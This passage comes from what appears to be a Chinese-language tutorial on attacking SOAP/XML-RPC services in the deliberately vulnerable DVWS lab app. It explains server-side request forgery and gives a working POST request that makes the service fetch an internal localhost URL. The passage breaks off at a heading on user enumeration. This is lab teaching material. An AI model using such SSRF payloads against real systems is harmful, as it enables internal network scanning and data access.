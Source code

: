 [![](assets/1706957905-3e5dc4bc3c2cc92e1c3540e8fa4aa308.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094049-17f98014-c16c-1.png)

### SSRF 攻击

服务器端请求伪造 (SSRF) 在 SOAP 中也比较常见，攻击者可以在该漏洞中生成将由应用程序启动的请求，然后可以利用这一点向第三方系统发出请求，例如：进行端口扫描、访问内网应用、进行文件读取等，某些 API 或 RPC 服务可能提供从其他 API/应用程序以 HTTP 请求参数的形式获取数据的功能，在这些情况下，我们可以利用 API 来执行端口扫描等操作，在 DVWS 应用程序的端口 9090 中可以使用 XML-RPC 服务，在 DVWS 节点应用程序中有关此 XML-RPC 服务使用的提示显示在的代码注释中[http://192.168.204.160/error.html](http://192.168.204.160/error.html) 这些信息也可以通过暴力强制找到[http://192.168.204.160:9090/xmlrpc](http://192.168.204.160:9090/xmlrpc) 服务器

```bash
POST /xmlrpc HTTP/1.1
Host: 192.168.204.160:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
Content-Length: 174
Content-Type: application/x-www-form-urlencoded

<?xml version="1.0"?><methodCall><methodName>dvws.CheckUptime</methodName><params><param><value><string>http://127.0.0.1/uptime</string></value></param></params></methodCall>
```

[![](assets/1706957905-cb433da68ffab0e00bd4bea45ecf58dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094118-28f84f26-c16c-1.png)

### 任意用户枚举
